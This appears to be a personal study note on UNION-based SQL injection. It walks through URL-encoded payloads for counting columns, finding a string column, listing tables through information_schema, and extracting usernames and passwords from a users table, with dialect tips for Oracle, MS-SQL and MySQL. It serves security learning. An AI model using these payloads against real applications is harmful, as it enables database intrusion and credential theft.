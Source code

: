 ### Extracting data
Tags: #sqli 
Related to: 
See also: 
Previous:

### Body
Summary: Should be short, no prose

Notes:
Extracting data with union 
- first find the number of cols
  ref: `Name=Matthew’%20union%20select%20null,null,null,null,null--`
- now verify the first column that has string
  ref: `Name=Matthew’%20union%20select%20’a’,null,null,null,null--`
- find the database tables and column. Use `information_schema`
  ref: `Name=Matthew’%20union%20select%20table_name,column_name,null,null,null%20from%20information_schema.columns--`
- extract the data
  ref: `Name=Matthew’%20UNION%20select%20username,password,null,null,null%20from%20users--`

#### tips:
The `information_schema` is supported by `MS-SQL, MySQL,` and many
other databases, including SQLite and Postgresql. It is designed to hold data-
base metadata, making it a primary target for attackers wanting to examine
the database. Note that <mark class="hltr-red">Oracle doesn’t support this schema</mark>. When targeting
an Oracle database, the attack would be identical in every other way. However,
you would use the query `SELECT table_name,column_name FROM all_tab_`
columns to retrieve information about tables and columns in the database.
(You would use the `user_tab_columns table` to focus on the current database
only.) When analyzing large databases for points of attack, it is usually best to
look directly for interesting column names rather than tables. 
For instance:
```
SELECT table_name,column_name FROM information_schema.columns where
column_name LIKE ‘%PASS%’
```

#### tips:
retrieving multiple data from a single column:
`' UNION SELECT username || '~' || password FROM users--`


#### tips

When multiple columns are returned from a target table, these can be
concatenated into a single column. This makes retrieval more straightforward,
because it requires identification of only a single varchar field in the original
query:
```
-  Oracle: SELECT table_name||’:’||column_name FROM all_tab_columns
-  MS-SQL: SELECT table_name+’:’+column_name from information_schema.columns
-  MySQL: SELECT CONCAT(table_name,’:’,column_name) from information_schema.columns
```


### References
- [[]]